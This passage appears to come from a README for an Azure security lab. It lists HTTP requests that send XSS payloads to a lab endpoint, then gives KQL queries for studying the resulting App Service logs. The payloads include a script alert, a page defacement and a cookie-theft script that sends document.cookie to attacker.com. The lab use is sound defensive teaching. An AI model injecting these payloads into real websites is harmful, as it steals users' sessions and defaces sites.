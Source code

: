 ```http
```

#### XSS Attack Sequence
```http
# Script injection
POST {{base_url}}/api/attack/xss
Content-Type: application/json
{
    "payload": "<script>alert('XSS Attack')</script>"
}

# Cookie theft simulation
POST {{base_url}}/api/attack/xss
Content-Type: application/json
{
    "payload": "<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>"
}

# DOM manipulation
POST {{base_url}}/api/attack/xss
Content-Type: application/json
{
    "payload": "<img src=x onerror='document.body.innerHTML=\"<h1>Site Hacked</h1>\"'>"
}
```

## 📊 Log Analysis with KQL

### Access Azure Log Analytics
1. Go to **Azure Portal** → **law-security-lab** → **Logs**
2. Execute KQL queries for security analysis

### ⚠️ Important Notes
- Some fields like `CsUserAgent`, `CIp`, `CsBytes` may not be available in all Azure configurations
- Use `project *` to see all available fields: `AppServiceHTTPLogs | take 1 | project *`
- If queries fail, check available schema with: `AppServiceHTTPLogs | getschema`

### 🚀 Quick Start Queries

#### Simple Data Check
```kql
AppServiceHTTPLogs
| where TimeGenerated > ago(24h)
| take 10
```

#### Available Fields Discovery
```kql
AppServiceHTTPLogs
| take 1
| project *
```
